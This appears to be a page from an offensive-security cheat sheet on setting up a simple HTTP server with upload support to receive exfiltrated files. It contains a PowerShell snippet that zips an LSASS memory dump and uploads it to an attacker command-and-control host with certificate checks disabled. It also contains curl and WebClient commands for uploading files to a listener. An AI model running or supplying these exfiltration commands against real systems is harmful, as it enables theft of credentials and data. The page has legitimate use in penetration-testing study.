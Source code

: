 # Using Curl to POST data to SimpleHTTPServerWithUpload.py


## ProjectDiscovery [SimpleHTTPServer](../../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver)
* Simple command for running
    ```bash
    simplehttpserver -https -upload
    simplehttpserver -https -upload -listen 0.0.0.0:443
    ```
* Upload a file via [curl](../../Useful_Commands/Linux.html#upload-files-via-curl)(Linux) or [powershell](../../Useful_Commands/Windows.html#download-uploading-files)(Windows). Try to [compress](../../Network/Data_Exfiltration/Windows-Archiving_and_Compression.md#powershell) first
    * Windows
       * Powershell (Possible to convert to one-liner and execute via *cmd*>`powershell "<b;e;l;o;w;>"`)
          ```powershell
          Compress-Archive -LiteralPath C:\Windows\temp\lsass.dmp -DestinationPath C:\Windows\temp\lsass.zip
          [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
          
          $uri='https://c2.attacker.com/lsass.zip'
          $uploadPath = 'C:\Windows\temp\lsass.zip'
          Invoke-RestMethod -Uri $uri -Method Put -InFile $uploadPath -UseDefaultCredentials" 
          ```


---
## Python3 SimpleHTTPServer
* Caveats
   * Insecure communications (HTTP)
       * Choose a server that accepts POST request and makes use of HTTPS
* Download
   * [SimpleHTTPServerwithUpload_Python3](https://gist.github.com/touilleMan/eb02ea40b93e52604938) from @touilleMan
* Modify listening port
   * If you want to change the port that the script is listening to (by default 8000/tcp), use below to replace function "test". (i.e. 1337/tcp)
       ```python
       def test(HandlerClass=SimpleHTTPRequestHandler, ServerClass=http.server.HTTPServer):
       server_address = ('', 1337)
       httpd = ServerClass(server_address,HandlerClass)
       httpd.serve_forever()
       ```
* From client-side
* Once SimpleHTTPServer is running then: (`#!bash python3 SimpleHTTPServerWithUpload.py`)
   * Linux
       ```bash
       curl -F "file=@flag.zip" http://10.1.2.3:8000/
       ```
   * Powershell
       ```powershell
       $wc=New-Object System.Net.WebClient;$resp=$wc.UploadFile('http://10.1.2.3:8000',"C:\Users\Administrator\Desktop\flag.zip")
       ```
